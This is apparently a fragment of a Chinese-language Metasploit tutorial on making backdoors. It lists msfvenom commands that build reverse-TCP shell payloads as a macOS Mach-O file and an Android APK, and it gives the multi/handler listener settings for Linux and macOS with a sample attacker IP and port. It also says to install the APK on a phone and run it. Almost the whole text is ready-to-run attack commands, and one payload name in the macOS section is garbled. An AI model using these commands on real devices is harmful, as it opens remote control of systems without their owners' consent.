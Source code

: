 ```
msfconsole
use exploit/multi/handler
set payload linux/x86/shell_reverse_tcp
set LHOST 192.168.43.193
set LPORT 4444
exploit
```

## 3.mac后门

```
msfvenom -p osx/x86ell_reverse_tcp LHOST=监听端ip地址 LPORT=监听端端口 -f macho > 文件路径/文件名
案例：msfvenom -p osx/x86ell_reverse_tcp LHOST=192.168.43.193 LPORT=4444 -f macho > shell.macho
```

### 监听设置

```
msfconsole



use exploit/multi/handler



set payload osx/x86/shell_reverse_tcp



set LHOST 192.168.43.193



set LPORT 4444



exploit
```

## 4.android后门

```
msfvenom -p android/meterpreter/reverse_tcp LHOST=监听端ip地址 LPORT=监听端端口 R > 文件路径/文件名



案例：msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.43.193 LPORT=4444 R > shell.apk
```

手机安装apk文件点击执行
